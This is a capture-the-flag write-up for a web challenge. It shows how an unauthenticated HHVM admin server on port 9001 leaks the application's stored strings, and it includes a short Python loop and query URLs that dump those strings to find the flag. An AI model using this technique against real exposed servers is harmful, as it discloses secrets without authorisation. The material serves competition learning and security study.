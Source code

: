 # Regexicide

1000 points - 3 Solves

```
I finally figured out the passphrase to the EVIL club. It's pretty complicated so I've decided to store it in my server in case I forget.
I've protected it with a password though, so it's virtually impossible for anyone else to get it. I sometimes accidentally enter my
password multiple times, so I added a twist to my server to handle that case too.
For some reason my server gets bloated after a while - nothing frequent deploys can't fix.
http://34.212.86.199/

(This problem does not require any brute force or scanning. We will ban your team if we detect brute force or scanning).
```

## Solution:

For this problem we found that port 9001 was open. After looking at the webpage we realize that this was HHVM with the [admin server](https://hhvm.com/blog/521/the-adminserver) exposed and unauthenticated.

Looking at the different options available to us on the admin page this section seemed particularly promising:
```
/static-strings:  get number of static strings
/static-strings-rds: ... that correspond to defined constants
/dump-static-strings: dump static strings to /tmp/static_strings
/random-static-strings: return randomly selected static strings
   count         number of strings to return, default 1
```

We can query `http://34.212.86.199:9001/static-strings` to retrieve the number of static strings. 

Then, we can query `http://34.212.86.199:9001/random-static-strings?count=num` in order to retreive all static strings in the application. 

The flag can be found with a quick search for `fb{`.

#### Bonus
Additionally, we also wrote a dumper in parallel to continous dump strings before we tried `count` parameter on GET request

```python
import requests

f = open('solve.txt','w')
for i in xrange(0,1000):
        r = requests.get("http://34.212.86.199:9001/random-static-strings")
        f.write(r.text.encode('utf-8').strip())
```

```
$ cat solve.txt | grep 'fb{'
```
